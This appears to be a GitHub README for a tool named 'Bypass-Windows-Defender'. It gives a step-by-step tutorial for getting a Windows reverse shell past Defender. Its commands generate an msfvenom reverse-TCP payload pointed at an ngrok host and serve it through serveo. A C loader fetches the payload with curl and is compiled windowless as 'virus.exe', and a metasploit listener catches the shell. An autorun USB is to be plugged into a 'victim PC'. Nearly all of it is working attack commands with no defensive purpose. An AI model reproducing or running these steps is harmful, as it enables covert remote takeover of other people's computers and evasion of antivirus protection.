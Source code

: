 # Bypass-Windows-Defender
Bypass Windows Defender with a staged C code &amp; metasploit framework

#### developed by L0PA

 ### Bypass Step's:
   - Create a TCP Tunnel: Set up a TCP tunnel using Ngrok to expose the port for the payload.
   - Generate Payload: Use msfvenom to create the payload in .bin format.
   - Start Python Server: Launch a Python HTTP server in the same directory where the payload is located.
   - Expose Server Online: Use Serveo to make the server accessible online.
   - Set up Listener: Use msfconsole to listen on the specified TCP port.
   - Develop C Code: Write the C code to fetch and execute the payload.
   - Compile and Run: Compile the C code.
   - Create a USB with autorun
##

### Install all requirements on debian
   - Install Ngrok
   ```
  wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
  unzip ngrok-stable-linux-amd64.zip
  sudo mv ngrok /usr/local/bin/
  ```
  - install metasploit framework
  ```
  curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/scripts/ubuntu_install.sh > ubuntu_install.sh
  chmod +x ubuntu_install.sh
  ./ubuntu_install.sh
  ```
  - install gcc
  ```
  sudo apt install gcc-mingw-w64-x86-64
  ```
##

### Install all requirements on Arch Linux
   - Install Ngrok
   ```
  git clone https://aur.archlinux.org/ngrok-bin.git
  cd ngrok-bin
  makepkg -si
  ```
  - metasploit framework
  ```
  sudo pacman -S metasploit
  ```
  - install gcc
  ```
  sudo pacman -S mingw-w64-gcc
  ```

##
### Tutorial for bypass Windows Defender

- Create the tcp tunnel on the port 4444
  ```
  sudo ngrok tcp 4444
  ```
- Copy the IP and the PORT of the server 
  ```
   - IP: 4.tcp.eu.ngrok.io
   - PORT: 15819
  ```

<p align="center">
    <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/ngrok-tcp.jpg">
   </p>

- Create the .bin payload using msfvenom 
  ```
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=4.tcp.eu.ngrok.io LPORT=15819 -f raw -o payload.bin
  ```

- Launch a Python HTTP server in the same directory where the payload is located 
  ```
    python -m http.server 8090
  ```

- Create the serveo key and expose python server using a serveo tunnel
  ```
   ssh-keygen -t rsa -b 4096 -f ~/.ssh/serveo_key
   ssh -i ~/.ssh/serveo_key -R yourServer:80:localhost:8090 serveo.net
  ```

- Create the main.c file and modify the "command" variable with your server
```
   char *command = "curl https://yourServer.serveo.net/payload.bin";
```

<p align="start">
   <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/command_variable.png">
</p>

##

- Setting up msfconsole
```
   msfconsole
```
```
   use multi/handler
   ```
```
   set payload windows/x64/shell_reverse_tcp
```
```
   set LHOST <LOCAL IP>
   ```
```
   set LPORT 4444
```
```
   exploit
```

##

- Compile the main.c file for Windows
   - For Windows
   ```
   gcc main.c -o virus -mwindows
   ```
   - For Linux
   ```
   x86_64-w64-mingw32-gcc -o virus.exe main.c -mwindows
   ```

   ## ⚠️ don't forget the -mwindows parameter

## 💾 AutoRun USB
 ## Now, let's create a USB stick that will automatically run the file (autorun)

 - Install the software "USB AutoRun Creator" from this link: "bit.ly/USB-AutoRun-Creator"
 - Follow the installation and open the software
 
  
 <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/AutorunCreator.png"/>

 - In the first field enter the path of the previously compiled .exe file, in the second field select your USB drive
 - The Icon and Label fields are optional
 - Click on "Create"

## 

## 😈 Now, remove and reinsert the USB stick
<img align="center" src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/metasploit.png"/>

### ⚠️ The files in the USB stick with autorun will never have to be updated, to create the payload again, you will have to start a new TCP tunnel and create a new payload with msfvenom using the same name specified the first time, so that the new payload replaces the old one . Then just start the python server, and then the tunnel with serveo and connect the USB to the victim PC. Happy Hacking ;)
